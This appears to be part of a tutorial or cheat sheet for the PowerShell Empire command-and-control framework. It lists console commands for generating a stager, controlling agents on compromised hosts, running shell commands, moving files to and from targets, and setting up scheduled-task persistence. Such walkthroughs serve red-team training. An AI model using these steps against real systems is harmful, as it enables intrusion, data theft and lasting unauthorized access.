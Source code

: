 #### **12. Generate the Stager**
- **Description:** Generate the stager code.
- **Command:**
  ```bash
  (Empire: stager/windows/launcher_bat) > generate
  ```
- **Explanation:**
  - `generate` creates the stager, which can then be deployed on the target.

#### **13. Interact with Agents**
- **Description:** List and interact with active agents.
- **Command:**
  ```bash
  (Empire) > agents
  ```
- **Explanation:**
  - `agents` lists all active agents that are currently connected to the Empire server.

- **Interact with an Agent:**
  ```bash
  (Empire) > interact AGENT_NAME
  ```
- **Explanation:**
  - `interact` followed by the agent name allows you to control the agent.

#### **14. Run Commands on Agents**
- **Description:** Execute commands on the compromised host via the agent.
- **Command:**
  ```bash
  (Empire: agents/AGENT_NAME) > shell whoami
  ```
- **Explanation:**
  - `shell` followed by a command runs that command on the compromised host (e.g., `whoami`).

#### **15. Upload Files to Agents**
- **Description:** Upload a file to the compromised host.
- **Command:**
  ```bash
  (Empire: agents/AGENT_NAME) > upload /path/to/local/file C:\path\to\remote\file
  ```
- **Explanation:**
  - `upload` copies a file from your local machine to the target machine.

#### **16. Download Files from Agents**
- **Description:** Download a file from the compromised host.
- **Command:**
  ```bash
  (Empire: agents/AGENT_NAME) > download C:\path\to\remote\file /path/to/local/file
  ```
- **Explanation:**
  - `download` copies a file from the target machine to your local machine.

#### **17. Persistence Modules**
- **Description:** Use modules to maintain persistence on the compromised host.
- **Command:**
  ```bash
  (Empire) > usemodule persistence/elevated/schtasks
  ```
- **Explanation:**
  - `usemodule` followed by a persistence module name allows you to set up persistence mechanisms like scheduled tasks.
